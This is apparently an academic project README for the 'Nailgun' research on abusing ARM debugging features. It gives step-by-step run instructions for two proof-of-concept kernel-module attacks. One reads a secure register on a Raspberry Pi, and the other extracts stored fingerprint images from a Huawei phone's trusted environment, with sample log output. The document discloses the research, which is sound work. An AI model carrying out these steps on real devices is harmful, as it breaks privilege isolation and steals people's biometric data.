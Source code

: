 
# Nailgun: Break the privilege isolation in ARM devices

## Overview
Processors nowadays are consistently equipped with debugging features to facilitate the program debugging and analysis. Specifically, the ARM debugging architecture involves a series of CoreSight components and debug registers to aid the system debugging, but the security of the debugging features is under-examined since it normally requires physical access to use these features in the traditional debugging model.

The idea of Nailgun Attack is to misuse the debugging architecture with the inter-processor debugging model. In the inter-processor debugging model, a processor (debug host) is able to pause and debug another processor (debug target) on the same chip even when the debug target owns a higher privilege. With Nailgun, we are able to obtain sensitive information and achieve arbitrary payload execution in a high-privilege mode.

For more details, please check our website https://compass.cs.wayne.edu/nailgun

## Proof of Concept
We will make two PoCs available on Github:

### PoC #1: Reading  Secure Configuration Register with a kernel module.
#### Platform
- Deivce: Raspberry PI 3 Model B+ 
- Firmware: Raspbian GNU/Linux 9.6 (stretch)

#### Description
In this PoC, we we use a kernel module running in non-secure EL1 to read Secure Configuration Register (SCR), which is only accessiable in secure state, on Raspberry PI. The fold ```PoC/Read_SCR``` contains the source code and prebuild binaries for two kernel modules. The first kernel module _directly_read.ko_ read the SCR directly, which lead to segmentation fault. The kernel module _nailgun.ko_ leverages Nailgun attack to read the SCR

#### Prepare
If you are going to build the kernel module from the source code, you need to install the compile tools and kernel headers with the following command,
```
pi@raspberrypi:~/ $ sudo apt-get install build-essential raspberrypi-kernel-headers
```
Then, get into the source code fold, and compile the kernel module
```
pi@raspberrypi:~/ $ cd PoC/Read_SCR
pi@raspberrypi:~/PoC/Read_SCR $ make
```

#### Run
Use _insmod_ command to install the corresponding kernel module, and use _dmesg_ to check the kernel logs.
```
pi@raspberrypi:~/PoC/Read_SCR $ sudo insmod directly_read.ko
pi@raspberrypi:~/PoC/Read_SCR $ dmesg
pi@raspberrypi:~/PoC/Read_SCR $ sudo insmod nailgun.ko
pi@raspberrypi:~/PoC/Read_SCR $ dmesg
```
The value of the SCR can be found in the kernel log.

#### Demo Video
https://youtu.be/dlKK_69HJnk
  
### PoC #2:  Extracting the fingerprint image.
#### Platform
- Deivce: Huawei Mate 7 (MT-L09)
- Firmware: MT7-L09V100R001C00B121SP05

#### Description
In this PoC, we use a kernel module running in non-secure EL1 to extract the fingerprint image
stored in TEE on Huawei Mate 7. The fold ```PoC/Fingerprint_Extraction``` contains the source code for the kernel module that extracts fingerprint data from TEE, a prebuild binary of the kernel module, and a python script to convert the extracted image data to a PNG file.

#### Prepare
- Make sure you have scanned a fingerprint with the fingerprint sensor.
- Enable USB debugging on your phone and connect it to your PC. (**Nailgun attack doesn't require physical access to the phone, the connection is only used for transferring the binary to the phone and moving the output log to the PC.**)
- Make sure you have root access on your phone.

#### Run
Firstly, push the prebuild binary into the phone
```
adb push nailgun.ko /sdcard/
```
Next, in the _adb shell_ console of the phone, install the kernel module
```
adb shell
shell@hwmt7:/ $ su
root@hwmt7:/ # insmod /sdcard/nailgun.ko
```
Check the kernel log with _dmesg_ command
```
root@hwmt7:/ # dmesg
```
If you can find the fingerprint data similar to this
```
<6>[   51.284149] [0.1, swapper/1] --------------------Fingerprint Start
<6>[   51.284210] [0.1, swapper/1] 2ef5efac: 412f0100 87796552 e8e2dfd4 eff0eeea
<6>[   51.284240] [0.1, swapper/1] 2ef5efbc: f3f3f3f3 f3f1f8f6 f3f3f2f1 eff4f4f8
<6>[   51.284301] [0.1, swapper/1] 2ef5efcc: f1f0f2f0 f1f0eff3 f1f1efee efeff0ee
<6>[   51.284332] [0.1, swapper/1] 2ef5efdc: e7ecefeb e8e9e8ed e6e4e3e6 e1e5e5e6
<6>[   51.284393] [0.1, swapper/1] 2ef5efec: e9e5e6e4 dfe3e3e6 e4e5e5e2 e0e3e3e3
<6>[   51.284423] [0.1, swapper/1] 2ef5effc: dee1e3e2 e8e6e1df eae8e6e7 eaeceeeb
<6>[   51.284484] [0.1, swapper/1] 2ef5f00c: e5e3e5e5 edebe6e7 edefeff1 f1eeeff0
<6>[   51.284515] [0.1, swapper/1] 2ef5f01c: e7eaebea e9e9e8e5 e6e7eaeb e4e5e4e2
<6>[   51.284576] [0.1, swapper/1] 2ef5f02c: e7e9e8e8 e5e6e7e6 e7eae7ea e2e4e4e5
```
then the PoC works.
Next, dump the kernel log to file, and extract the file from the phone to your PC
```
root@hwmt7:/ # dmesg > /sdcard/nailgun.log
root@hwmt7:/ # exit
shell@hwmt7:/ $ exit
adb pull /sdcard/nailgun.log .
```
Finally, use the python script to convert the fingerprint data to a PNG file
```
python log2image.py nailgun.log
```
You will find the extracted fingerprint images are stored into PNG files naming _fingerprint\_x.png_, in which _x_ means the index of the image.

#### Demo Video
https://youtu.be/5ioyneewFYQ

## Publication
```
@InProceedings{nailgun19,
	Title = {Understanding the security of ARM debugging features},
	Author = {Zhenyu Ning and Fengwei Zhang},
	Booktitle = {Proceedings of the 40th IEEE Symposium on Security and Privacy (S&P'19)},
	Year = {2019}
}
```

## Contact
- Zhenyu Ning
- zhenyu.ning _at_ wayne.edu
- Compass Lab, Wayne State University (https://compass.cs.wayne.edu)
